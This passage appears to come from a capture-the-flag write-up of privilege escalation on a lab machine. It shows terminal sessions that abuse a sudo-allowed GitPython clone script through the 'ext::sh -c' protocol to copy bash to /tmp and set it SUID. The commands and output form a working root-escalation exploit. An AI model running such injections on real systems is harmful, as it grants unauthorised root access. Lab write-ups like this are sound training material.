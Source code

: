 After some testing the only nuance of this vulnerability is each non ending argument needs to end with a %

```bash
prod@editorial:/tmp/.raccoon$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c cp% /bin/bash% /tmp'

Traceback (most recent call last):
  File "/opt/internal_apps/clone_changes/clone_prod_change.py", line 12, in <module>
    r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1275, in clone_from
    return cls._clone(git, url, to_path, GitCmdObjectDB, progress, multi_options, **kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1194, in _clone
    finalize_process(proc, stderr=stderr)
  File "/usr/local/lib/python3.10/dist-packages/git/util.py", line 419, in finalize_process
    proc.wait(**kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/cmd.py", line 559, in wait
    raise GitCommandError(remove_password_if_present(self.args), status, errstr)
git.exc.GitCommandError: Cmd('git') failed due to: exit code(128)
  cmdline: git clone -v -c protocol.ext.allow=always ext::sh -c cp% /bin/bash% /tmp new_changes
  stderr: 'Cloning into 'new_changes'...
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.
'

prod@editorial:/tmp/.raccoon$ ls /tmp

bash
pwned
systemd-private-c262a7837fc54dc8b812137b93d07b30-fwupd.service-m4SBz6
systemd-private-c262a7837fc54dc8b812137b93d07b30-ModemManager.service-BOPG1T
systemd-private-c262a7837fc54dc8b812137b93d07b30-systemd-logind.service-A64Qby
systemd-private-c262a7837fc54dc8b812137b93d07b30-systemd-resolved.service-mjPUaI
systemd-private-c262a7837fc54dc8b812137b93d07b30-systemd-timesyncd.service-ozFO0k
systemd-private-c262a7837fc54dc8b812137b93d07b30-upower.service-6X4zaC
vmware-root_797-4257069498
```

Copied bash properly now I can make it an SUID.

```bash
prod@editorial:/tmp/.raccoon$ sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c chmod% u+s% /tmp/bash'

Traceback (most recent call last):
  File "/opt/internal_apps/clone_changes/clone_prod_change.py", line 12, in <module>
    r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1275, in clone_from
    return cls._clone(git, url, to_path, GitCmdObjectDB, progress, multi_options, **kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/repo/base.py", line 1194, in _clone
    finalize_process(proc, stderr=stderr)
  File "/usr/local/lib/python3.10/dist-packages/git/util.py", line 419, in finalize_process
    proc.wait(**kwargs)
  File "/usr/local/lib/python3.10/dist-packages/git/cmd.py", line 559, in wait
    raise GitCommandError(remove_password_if_present(self.args), status, errstr)
git.exc.GitCommandError: Cmd('git') failed due to: exit code(128)
  cmdline: git clone -v -c protocol.ext.allow=always ext::sh -c chmod% u+s% /tmp/bash new_changes
  stderr: 'Cloning into 'new_changes'...
fatal: Could not read from remote repository.

Please make sure you have the correct access rights
and the repository exists.
'
```